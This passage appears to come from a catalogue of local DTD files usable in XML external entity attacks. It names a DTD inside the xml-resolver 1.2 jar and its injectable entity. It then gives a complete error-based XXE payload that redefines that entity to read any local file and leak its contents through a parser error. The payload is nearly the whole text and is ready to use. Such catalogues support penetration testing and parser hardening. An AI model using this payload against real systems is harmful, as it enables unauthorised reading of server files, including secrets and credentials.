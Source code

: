```
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/xml-resolver/xml-resolver/1.2/xml-resolver-1.2.jar!/org/apache/xml/resolver/etc/catalog.dtd`

**Injectable entity:** `%publicIdentifier`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/xml-resolver/xml-resolver/1.2/xml-resolver-1.2.jar!/org/apache/xml/resolver/etc/catalog.dtd">

    <!ENTITY % publicIdentifier '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 
